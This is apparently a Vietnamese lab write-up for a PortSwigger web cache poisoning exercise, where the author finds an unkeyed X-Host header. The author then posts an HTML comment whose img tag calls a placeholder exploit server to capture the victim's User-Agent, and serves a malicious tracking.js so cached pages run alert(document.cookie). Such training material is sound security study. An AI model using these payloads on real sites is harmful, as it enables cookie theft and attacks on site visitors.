 link: https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header

### Đề bài

![image](https://hackmd.io/_uploads/B1JGNL6TT.png)

### Phân tích

- Phòng thí nghiệm này dễ bị nhiễm độc bộ đệm web. Người dùng nạn nhân sẽ xem bất kỳ bình luận nào bạn đăng. Để giải quyết bài thí nghiệm này, mình cần đầu độc bộ đệm bằng một phản hồi thực thi alert(document.cookie)trong trình duyệt của khách truy cập. Tuy nhiên, bạn cũng cần đảm bảo rằng phản hồi được cung cấp cho tập hợp con người dùng cụ thể mà nạn nhân dự định thuộc về.

### Khai thác

- Param Miner chỉ ra cache của ứng dụng ignore X-Host header.

![image](https://hackmd.io/_uploads/Hybo4uA66.png)

![image](https://hackmd.io/_uploads/SybMHuAT6.png)

![image](https://hackmd.io/_uploads/rkymB_RTp.png)

- Như vậy ta đã xác định được unkeyed header và ta có thể chèn XSS payload ở đó.

![image](https://hackmd.io/_uploads/HkjvOOC6T.png)

- Lưu ý rằng Varytiêu đề được sử dụng để chỉ định rằng đó User-Agentlà một phần của khóa bộ đệm. Để nhắm mục tiêu vào nạn nhân, bạn cần tìm hiểu tên miền User-Agent.

Ta thấy các bài post có chức năng comment với comment có thể là HTML code.

![image](https://hackmd.io/_uploads/BkXbtdAaa.png)

- Bây giờ ta chỉ cần chèn payload sau để khi victim xem comment thì sẽ request đến exploit-server: `<img src="https://<EXPLOIT-SERVER>">`.

![image](https://hackmd.io/_uploads/ByXUYuC6p.png)

Lấy `User-Agent` đó kèm theo `X-Host` là XSS payload, ta đã có thể poison cache thành công với victim đã xác định.

![image](https://hackmd.io/_uploads/By5Y9OAp6.png)

khai thác như vậy không thành công vậy mình sẽ dùng domain của server lab cung cấp

- tạo nội dung cho file `/resources/js/tracking.js`

![image](https://hackmd.io/_uploads/r1Y9suCp6.png)

![image](https://hackmd.io/_uploads/ByBjhORp6.png)

thấy file js đã chứa script
